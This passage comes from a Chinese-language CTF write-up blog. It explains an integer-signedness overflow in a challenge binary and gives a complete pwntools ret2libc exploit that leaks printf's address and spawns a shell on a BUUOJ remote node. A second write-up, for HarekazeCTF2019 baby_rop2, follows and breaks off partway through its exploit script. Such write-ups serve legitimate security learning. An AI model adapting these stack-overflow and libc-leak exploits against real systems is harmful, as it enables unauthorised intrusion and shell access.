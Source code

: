 get_n的第二个形参**a2是无符号整型**，并且它没有对我们输入的第二个参数a2做无符号整数判断。而**有符号负数**到**无符号数**是**会发生溢出的。**

![image-20210325213708476](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737320.png)

写exp的时候注意一下用printf泄露地址时格式化字符串的位置和payload的写法即可

![1](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737210.png)

exp如下：

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
#p = process('./pwn')
e = ELF('./pwn')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
libc = ELF('libc-2.23.so')
p = remote('node3.buuoj.cn', 25470)
p.recvuntil('How many bytes do you want me to read? ')
p.sendline(b'-1')
p.recvuntil("data!\n")
offset = 48
fmtstr = 0x080486F8 #%s_addr!!!!!
vul_addr = 0x0804852F
printf_plt_addr = e.plt['printf']
printf_got_addr = e.got['printf']
payload1 = b'a' * offset + p32(printf_plt_addr) + p32(vul_addr) + p32(fmtstr) + p32(printf_got_addr)
p.sendline(payload1)
p.recvuntil('You said: ')
p.recvuntil('You said: ')
printf_true_addr = u32(p.recv(4))
p.recvuntil('How many bytes do you want me to read? ')
p.sendline(b'-1')
p.recvuntil("data!\n")
libc_base_addr = printf_true_addr - libc.symbols['printf']
system_true_addr = libc_base_addr + libc.symbols['system']
bin_sh_addr = libc_base_addr + libc.search('/bin/sh').next()
payload2 = b'a' * offset + p32(system_true_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()
```

# [HarekazeCTF2019]baby_rop2

跟上题差不多，都是利用已有的格式化字符串和printf来泄露真实地址

但是，我本来想用这种方法泄露printf的真实地址，不知道为什么打不通，同样的写法用于泄露read的真实地址，可以成功

![image-20210327012738383](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041737946.png)

```
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
#p = process('./pwn')
p = remote('node3.buuoj.cn', 26805)
e = ELF('./pwn')
libc = ELF('libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
offset = 40
p.recvuntil('name? ')
printf_plt_addr = e.plt['printf']
read_got_addr = e.got['read']
main_addr = 0x400636
pop_rdi_ret = 0x0400733
```